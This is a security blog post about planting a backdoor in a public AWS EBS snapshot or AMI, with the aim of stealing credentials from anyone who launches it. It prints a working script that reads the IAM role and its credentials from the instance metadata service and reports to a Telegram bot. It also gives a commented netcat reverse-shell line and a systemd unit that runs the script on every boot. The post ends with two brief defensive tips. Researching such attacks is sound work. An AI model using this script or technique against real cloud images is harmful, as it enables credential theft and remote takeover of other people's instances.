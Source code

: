 ```yaml
---
layout: post
title:  "Planting backdoors and stealing secrets if not crypto miners!"
date:   2022-05-20 20:18:00
categories: AWS-Security
---
```


Before deep diving in this article, I would like to share two awesome resources on the research done on EC2 snapshots/AMI's

1) [Finding Secrets In Publicly Exposed EBS Volumes - Ben Morris] [Defcon]

2) [Investigating malicious AMIs - Scott Piper] [Summit Route]

After going through the above articles, I wanted to know what if the snapshot/AMIs could just steal AWS keys/secrets or create backdoors,
as cryptominers were flagged and blocked by AWS.

I wrote a shell script steal_creds.sh to check if the IAM role is attached to the instance - if yes send credentials to my telegram bot.
Additionally added a command to get a reverse shell on my C2C server

{% highlight shell %}
#!/bin/sh
role=$(curl -s http://169.254.169.254/latest/meta-data/iam/info | grep -Eo 'instance-profile/([a-zA-Z.0-9.-]+)' | sed 's#instance-profile/##')
if [ -z "$role" ];
 then
  send=$(curl -s "https://api.telegram.org/bot1588xxxx:xxx/sendMessage?chat_id=-xxxxxxxx&text=no_IAM_roleattached");
else
 #not stealing any creds. Just quering to find if flagged by AWS
 creds=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$role)
 #just sending role_name back to telegram
 send=$(curl -s "https://api.telegram.org/bot1588xxxx:xxx/sendMessage?chat_id=-xxxxxxxx&text=&text=$role");
fi

#Just add your backdoor command here
#ex : nc -e /bin/sh <IP> <port>

{% endhighlight %}

And then create a unit file under /etc/systemd/system

{% highlight shell %}
[Unit]
Description=Steal creds systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /mnt/steal_creds.sh

[Install]
WantedBy=multi-user.target
{% endhighlight %}


Finally just create a snapshot from the volume and you could also create an AMI from the snapshot. Make the snapshot and AMI both public and wait
for the pingback. I had left the snapshot and AMI public for more than a week and it hadn't been brought down by AWS.

**Learnings**

- Don't create EC2 instance from unknown AMIs or from unknown public snapshots as base volume (especially don't attach any IAM role)

- In case when direly needed, just attach the volume on the EC2 instance and mount the volume on a directory to perform analysis. Make sure the instance is
isolated and has no keys/roles attached to it.

[Defcon]: https://www.youtube.com/watch?v=-LGR63yCTts
[Summit Route]: https://summitroute.com/blog/2018/09/24/investigating_malicious_amis/

